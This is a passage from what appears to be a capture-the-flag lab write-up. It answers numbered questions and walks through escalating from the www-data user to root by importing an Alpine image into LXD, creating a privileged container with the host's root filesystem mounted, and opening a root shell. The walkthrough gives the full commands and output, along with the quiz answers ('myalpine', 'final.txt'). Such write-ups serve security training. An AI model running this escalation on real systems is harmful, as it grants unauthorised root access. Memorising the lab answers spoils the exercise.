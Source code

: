 There is none. We are supposed to have a `myalpine` image. If you have an empty list, you can install it yourself.

First download the image on your machine: 

~~~
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ ./build-alpine
~~~

Transfer the resulting `tar.gz` file (e.g. `alpine-v3.12-x86_64-20200623_1255.tar.gz`) to the target.

Now, on the target, import the image.

~~~
www-data@ubuntu:/tmp$ lxc image import alpine-v3.12-x86_64-20200623_1255.tar.gz --alias myalpine
<-v3.12-x86_64-20200623_1255.tar.gz --alias myalpine
www-data@ubuntu:/tmp$ lxc image list
lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+----------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myalpine | f3c94a02e9d8 | no     | alpine v3.12 (20200623_12:55) | x86_64 | 3.07MB | Jun 23, 2020 at 11:07am (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
www-data@ubuntu:/tmp$ 
~~~

Answer: `myalpine`

# #19 - The idea here is to mount the root of the OS file system on the container, this should give us access to the root directory. Create the container with the privilege true and mount the root file system on /mnt in order to gain access to /root directory on host machine.

*Hint: lxc init ... lxc config device ... lxc start ... lxc exec ...*

~~~
www-data@ubuntu:/tmp$ lxc init myalpine joker -c security.privileged=true
lxc init myalpine joker -c security.privileged=true
Creating joker
www-data@ubuntu:/tmp$ lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to joker
www-data@ubuntu:/tmp$ lxc start joker
lxc start joker
www-data@ubuntu:/tmp$ lxc exec joker /bin/sh
lxc exec joker /bin/sh
~ # id
id
uid=0(root) gid=0(root)
~~~

# #20 - What is the name of the file in the /root directory?

Answer: `final.txt`
